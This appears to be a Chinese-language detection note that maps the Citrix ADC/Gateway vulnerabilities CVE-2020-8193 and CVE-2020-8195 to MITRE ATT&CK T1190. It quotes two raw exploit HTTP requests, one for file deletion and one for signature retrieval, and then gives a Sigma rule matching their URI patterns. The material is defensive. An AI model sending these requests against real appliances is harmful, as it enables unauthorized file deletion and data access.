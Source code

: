 # T1190-CVE-2020-8193/CVE-2020-8195

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“ 利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Citrix Systems Citrix Application Delivery Controller（ADC）等都是美国思杰系统（Citrix Systems）公司的产品。Citrix Application Delivery Controller是一款应用交付控制器。Citrix Systems Gateway（Citrix Systems NetScaler Gateway）是一套安全的远程接入解决方案。Citrix System SDWAN WAN-OP是一款SD-WAN（虚拟软件定义的广域网）设备。 Citrix Systems Citrix ADC、Citrix Gateway和Citrix SDWAN WAN-OP中存在安全漏洞。攻击者可利用该漏洞绕过权限限制。

## 检测日志

HTTP.log

## 测试复现

漏洞利用方式建议参考：

Citrix Systems产品安全漏洞 CVE-2020-8193, CVE-2020-8195 and CVE-2020-8196 poc

<https://www.cnblogs.com/potatsoSec/p/13281577.html>

Citrix安全研究历险记

<https://blog.unauthorizedaccess.nl/2020/07/07/adventures-in-citrix-security-research.html>

## 测试留痕

暂无实测，截取部分公开资料内容作为留痕数据。

### 删除文件

```yml
POST /rapi/filedownload?filter=remove:1,path:%2ftmp%2ftest HTTP/1.1 
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
rand_key: 2061490565.1580290269373855
DNT: 1
X-NITRO-USER: henk
X-NITRO-PASS: henk
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; rdx_pagination_size=25%20Per%20Page; SESSID=05afba59ef8e0e35933f3bc266941337
Content-Type: application/xml
Content-Length: 31

<clipermission></clipermission>
```

以上内容截取自<https://www.cnblogs.com/potatsoSec/p/13281577.html>

### 获取默认所有签名

```yml
POST /pcidss/report?type=all_signatures&sid=254&username=nsroot&profile_name=default&set=0&sig_name=_default_signature_&sig_start_no=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/pcidss/launch_report?type=main
Content-Type: application/xml
Content-Length: 0
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

以上内容截取自<https://blog.unauthorizedaccess.nl/2020/07/07/adventures-in-citrix-security-research.html>

## 检测规则/思路

### sigma规则

```yml
title: 检测可疑的CVE-2020-8193/CVE-2020-8195
references:
    - https://www.cnblogs.com/potatsoSec/p/13281577.html
    - https://research.nccgroup.com/2020/07/10/rift-citrix-adc-vulnerabilities-cve-2020-8193-cve-2020-8195-and-cve-2020-8196-intelligence/
status: experimental
date: 2020/07/10
tags:
    - attack.initial_access
    - attack.t1190
logsource:
    category: webserver
detection:
    selection1:
        c-uri|contains: 
            - '/rapi/filedownload?filter=path:%2F' #删除文件时POST请求，URL路径包含的字段。
    selection2:
        c-uri|contains|all:
            - '/pcidss/report' #获取所有默认签名时POST请求URL内包含的字段
            - 'type=all_signatures'
            - 'sig_name=_default_signature_'
    condition: 1 of them
fields:
    - client_ip
    - vhost
    - url
    - response
falsepositives:
    - Unknown
level: critical
```

### 建议

建议使用HTTP流量+安全设备进行检测分析，研判攻击是否成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>
